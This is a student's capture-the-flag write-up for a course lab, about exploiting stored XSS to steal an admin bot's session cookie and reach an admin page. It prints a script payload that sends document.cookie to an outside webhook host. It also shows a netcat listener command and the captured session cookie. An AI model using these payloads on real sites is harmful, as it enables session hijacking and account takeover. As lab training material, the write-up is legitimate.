

This challenge took me a while to solve, and I’m still not 100% sure why my initial payloads didn’t work. But the final one _did_ work. I got the cookie, got the flag, and at the end of the day, that’s what matters.

---

### Initial Thoughts

It was pretty clear from the start that we were supposed to perform some kind of XSS injection. After landing on the page and submitting a message like:

```html
<script>
  alert("Hello World!");
</script>
```

I was redirected to a `/message/n` URL where my message was inserted directly into the page—and it triggered the alert. Below it, there was a note saying _"The admin is a geek, he checks his messages every minute in his full-fledged web browser."_

Assuming the admin sees messages the same way I do, he’s vulnerable to XSS.

---

### My First Attempts (aka: Why Isn't This Working?!)

Naturally, I tried to steal the admin’s cookie using a webhook from [https://webhook.site](https://webhook.site). I used this payload:

```html
<script>
  fetch("https://webhook.site/abc123?cookie=" + document.cookie);
</script>
```

And yes, it would fire—_from my own browser_. I saw my own cookie (just some generic Google cookie, I think), but **never anything from the admin**.

Maybe scripts were filtered? Let’s try something else:

```html

```

Again—my browser fired it, webhook got my cookie, but still **nothing** from the admin.

---

### Hosting My Own Listener

A classmate tipped me off: maybe outbound traffic is restricted for the admin. What if I host my own HTTP listener _inside_ the network?

I had SSH access to the server (`shell.hackintro25.di.uoa.gr`), so I gave it a shot.

I fired up a listener:

```bash
nc -lvnp 4444
```

And from another terminal, I sent this payload:

```bash
curl -X POST http://shell.hackintro25.di.uoa.gr:38842/message \
  --data-urlencode "message="
```

Using `--data-urlencode` ensures characters like `<`, `>`, and `"` are properly encoded (`%3C`, `%3E`, `%22`...), so the payload gets submitted cleanly without breaking the form.

---

Soon after, I got this on my listener:

```
listening on [any] 4444 ...
connect to [10.0.1.19] from (UNKNOWN) [10.0.1.19] 33916
GET /?c=session=eyJhZG1pbiI6MSwidXNlciI6ImFkbWluIn0.aDHU3Q.FKoMGXyH5*CxdTuQyc1hRbo1wc8 HTTP/1.1
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) PhantomJS/1.9.7 Safari/534.34
Referer: http://localhost:38842/message/consume20375-857
Accept: */\_
Connection: Keep-Alive
Accept-Encoding: gzip
Accept-Language: en,\*
Host: 10.0.1.19:4444
```

Boom. Cookie acquired:

```
session=eyJhZG1pbiI6MSwidXNlciI6ImFkbWluIn0.aDHU3Q
```

I popped open my browser, added the cookie, then visited:

```
http://shell.hackintro25.di.uoa.gr:38842/admin
```

And just like that, I was in. The flag was waiting for me.

---



---

Flag in hand. Mission complete.

EDIT: After discussing with a classmate, I found out that, the reason my webhook attempts failed initially, were probably not because the admin was not visiting untrusted domains, but because I was using https instead of http? Never noticed that, and Im not sure why this is not working for https, my own browser was sending my cookies to the webhook, but the admin browser wasnt. Thats still a mystery for me.
